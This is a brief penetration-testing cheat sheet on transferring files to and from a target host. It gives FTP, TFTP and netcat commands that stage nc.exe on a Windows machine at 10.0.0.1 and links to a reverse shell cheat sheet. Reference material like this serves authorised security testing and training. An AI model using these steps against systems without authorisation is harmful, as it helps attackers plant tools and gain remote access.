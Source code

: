 ### FTP

To start a `FTP` server:
```bash
On Linux:
sudo python3 -m pyftpdlib -p 21 -w
```

To download a file:
```bash
On Windows:
ftp -A 10.0.0.1
ftp> binary
ftp> passive
```

### TFTP

To start a `TFTP` server:  
```bash
On Linux:
sudo atftpd --daemon --port 69 /tftp
```

To download a file:  
```bash
On Windows
tftp -i 10.0.0.1 GET nc.exe
```

### nc

Linux &rarr; Windows
```bash
On Linux:
cat nc.exe | nc -lvnp 1337

On Windows
nc 10.0.0.1 1337 > nc.exe
```

Windows &rarr; Linux
```bash
On Linux:
nc 10.0.0.1 1337 < nc.exe

On Windows
nc -lvnp 1337 > nc.exe
```

## Reverse Shell

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
